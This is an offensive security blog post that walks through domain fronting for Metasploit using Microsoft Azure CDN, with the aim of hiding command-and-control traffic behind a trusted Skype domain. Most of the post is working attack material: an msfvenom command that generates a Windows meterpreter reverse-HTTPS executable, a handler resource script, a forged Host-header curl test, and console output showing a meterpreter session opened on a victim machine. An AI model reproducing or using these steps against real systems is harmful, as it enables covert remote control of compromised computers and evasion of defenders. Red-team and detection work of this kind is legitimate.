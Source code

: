 ```yaml
---
title: "Metasploit Domain Fronting With Microsoft Azure"
date: 2018-04-03T00:24:27-05:00
draft: true
---
```


Domain fronting has been one of the biggest "new-hotnesses" of the past few years and rightly so. It helps to mask your C2 traffic behind well-known domains and does a fairly good job at keeping defenders in the dark. We've seen plenty of resources setting up domain fronting for [Empire](https://www.xorrior.com/Empire-Domain-Fronting/) and [Cobalt Strike](https://blog.cobaltstrike.com/2017/02/06/high-reputation-redirectors-and-domain-fronting/), which have definitely helped to pave the way. Domain fronting support was [finally added](https://github.com/rapid7/metasploit-framework/pull/8948) into the Metasploit Framework in late 2017 and now we're starting to see [various](https://beyondbinary.io/articles/domain-fronting-with-metasploit-and-meterpreter/) [resources](https://bitrot.sh/post/30-11-2017-domain-fronting-with-meterpreter/) to help set that up for you. 

An observation that I've made is that it seems most people like to use AWS CloudFront as their CDN of choice for domain fronting, and I'll admit I fall guilty to that. Microsoft Azure also has domain fronting capabilities in their CDN infrastructure, so in this post we'll focus on setting up Metasploit domain fronting with Azure.

## Setting Up Azure

The setup for Azure is pretty straight forward and doesn't stray too far from CloudFront, just that you're using a different system. Once in Azure, you'll want to create a CDN resource and create an endpoint for that resource.

![CDN Setup Screenshot](/images/metasploit_azure_domain_fronting/1.png)

There's a few things that we need to take special attention to here:

* **CDN Endpoint Name**: This is what is going to be in your `Host` header in the HTTP request, and what will ultimately point to your C2 infrastructure. You'll want this to be something clever sounding, maybe something to deal with marketing or banking, however you decide to conceal yourself.
* **Origin Hostname**: This is your IP address or DNS name for you C2 infrastructure. This part will *not* be revealed to your end users / blue team. It's pretty much the final piece of glue to connect the CDN to your resources and get domain working.

Now that you've got your CDN and an endpoint created, it's time to wait. It can take the better part of an hour for the endpoint to propogate throughout the CDN. While we wait, we need to make sure we update the endpoint's caching settings. The reason we do this is because we don't want the CDN to act like a *real* CDN and cache our traffic, and instead just use the CDN as a communications channel.

![CDN Cache Screenshot](/images/metasploit_azure_domain_fronting/2.png)

Change your caching and query string caching behaviors to bypass and you'll be all set.

### Finding domain frontable Azure domains

Now that your CDN is setup and propogating, we need to find a high-profile domain name to hide behind that will also work for our CDN. [@a_profligate](https://twitter.com/a_profligate) has a blog post [Finding Domain frontable Azure domains](https://theobsidiantower.com/2017/07/24/d0a7cfceedc42bdf3a36f2926bd52863ef28befc.html) that does a pretty good job explaining how to find a domain to front with. I'm not going to bother re-inventing the wheel here, give that article a read. For the sake of this post, I'll use `do.skype.com` as my front domain.

### Test the CDN

Before we dive into Metasploit, we need to make sure our CDN communication is properly setup. I've got Nginx setup on my C2 server for testing purposes so it should respond the same way hitting it directly and hitting it through the CDN. When hitting it through the CDN with your newly chosen frontable Azure domain, you'll want to set the `Host` header to the FQDN you created before.


```
╭─chiggins at razer in ~
╰─○ curl "https://ohnoitsascarymaliciousdomain.fun"
<h1>Hello</h1>

<p>This is hosted from Nginx.</p>

╭─chiggins at razer in ~
╰─○ curl --header "Host: something-clever.azureedge.net" "https://do.skype.com"
<h1>Hello</h1>

<p>This is hosted from Nginx.</p>
```

## Setting Up Metasploit

First things first you'll want to generate your payload. Here's the payload getting generated on my C2 host.

```
╭─root at ip-10-2-0-235 in ~/metasploit-framework
╰─± ./msfvenom -p windows/meterpreter/reverse_https LHOST=do.skype.com LPORT=443 HttpHostHeader=something-clever.azureedge.net -f exe -o /var/www/html/exploit.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 463 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/exploit.exe
```

Two things to take special note of here:

* **LHOST**: This is going to be the frontable domain you discovered earlier.
* **HttpHostHeader**: This new option is what will set the `Host` entry in your HTTP request. This should be set to your CDN endpoint.

For the sake of simplicity I have a resource script setup so that when I start Metasploit, it'll start up my handler with all the right options.

```
╭─root at ip-10-2-0-235 in ~/metasploit-framework
╰─± cat ~/df_azure.rc
use multi/handler
set payload windows/meterpreter/reverse_https
set LHOST do.skype.com
set LPORT 443
set HttpHostHeader something-clever.azureedge.net
set ExitOnSession false
run -j
╭─root at ip-10-2-0-235 in ~/metasploit-framework
╰─± ./msfconsole -qr ~/df_azure.rc
[*] Processing /root/df_azure.rc for ERB directives.
resource (/root/df_azure.rc)> use multi/handler
resource (/root/df_azure.rc)> set payload windows/meterpreter/reverse_https
payload => windows/meterpreter_reverse_https
resource (/root/df_azure.rc)> set LHOST do.skype.com
LHOST => do.skype.com
resource (/root/df_azure.rc)> set LPORT 443
LPORT => 443
resource (/root/df_azure.rc)> set HttpHostHeader something-clever.azureedge.net
HttpHostHeader => something-clever.azureedge.net
resource (/root/df_azure.rc)> set ExitOnSession false
ExitOnSession => false
resource (/root/df_azure.rc)> run -j
[*] Exploit running as background job 0.

[-] Handler failed to bind to 72.21.81.200:443
msf5 exploit(multi/handler) > [*] Started HTTPS reverse handler on https://0.0.0.0:443

msf5 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                            Payload opts
  --  ----                    -------                            ------------
  0   Exploit: multi/handler  windows/meterpreter/reverse_https  https://do.skype.com:443

msf5 exploit(multi/handler) >
```

You'll notice that there's an error binding to `72.21.81.200:443`. That's because that is the IP address of `do.skype.com`, which is fine, because the handler also binds on `0.0.0.0:443` which will work out perfectly for us.

Transfer your payload onto your victim workstation and run it and you should see great success and a meterpreter shell call back!

```
[*] https://do.skype.com:443 handling request from 152.195.6.101; (UUID: 3cxijbex) Staging x86 payload (180901 bytes) ...
[*] Meterpreter session 1 opened (10.2.0.235:443 -> 152.195.6.101:38626) at 2018-04-03 21:02:31 +0000

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1RB861P
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

Because the payload utlizes both domain fromting via `do.skype.com` and HTTPS, the traffic in transit really looks like nothing out of the orginary.

![Wireshark capture of payload](/images/metasploit_azure_domain_fronting/3.png)

And there you have it -- successful domain fronting with Metasploit via Microsoft Azure! If you have any questions or comments, feel free to hit me up on Twitter [@ch1gg1ns](https://twitter.com/ch1gg1ns).
